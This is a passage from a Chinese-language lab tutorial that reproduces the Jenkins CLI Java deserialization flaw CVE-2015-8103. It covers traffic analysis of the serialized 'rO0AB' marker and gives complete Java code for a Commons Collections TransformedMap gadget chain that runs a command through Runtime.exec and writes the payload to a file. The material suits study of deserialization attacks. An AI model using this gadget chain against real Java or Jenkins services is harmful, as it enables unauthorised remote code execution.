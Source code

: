 这样，我们就可以反序列化这个类，将其成员变量`memeberVaules`反序列化成之前的那个`TransformedMap `，利用反射机制，就可以命令执行。



# Jenkins 反序列化 CVE-2015-8103 

## 前提

在2015爆出的Commons Collections反序列化之后，众多厂商都躺枪，今天挑了一个`Jenkins`的反序列化，通过手工构造Payload的形式，复现当年的反序列化漏洞。

靶场环境: https://github.com/Medicean/VulApps/tree/master/j/jenkins/1

不过这个漏洞的端口并不是在应用的web端口，而是在Jenkins的CLI端口（一般是一个随机的大端口），在靶场里是固定的50000

## 流量分析

通过wireshare进行流量包的抓取之后，可以看到其中存在Java反序列化的特征值`ac ed 00 05 `的base64编码之后的值`rO0AB `

![](Java反序列之从萌新到菜鸟\12.png)

所以，只要我们模拟之前的TCP通信，并将这段base64编码的数据替换成我们恶意构造的序列化数据，就可以达成反序列化攻击。

## 构造Payload

生成序列化字节

```java
public static void main(String[] args) throws Exception{
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{
            String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{ Object.class,
                                                     Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class},
                               new Object[]{"touch /tmp/eval"})};

    Transformer transformedChain = new ChainedTransformer(transformers);

    Map normalMap = new HashMap();
    normalMap.put("value", "value");

    Map transformedMap = TransformedMap.decorate(normalMap, null, transformedChain);
    Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

    Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
    ctor.setAccessible(true);
    Object instance = ctor.newInstance(Target.class, transformedMap);

    File f = new File("eval.bin");
    ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
    out.writeObject(instance);
}
```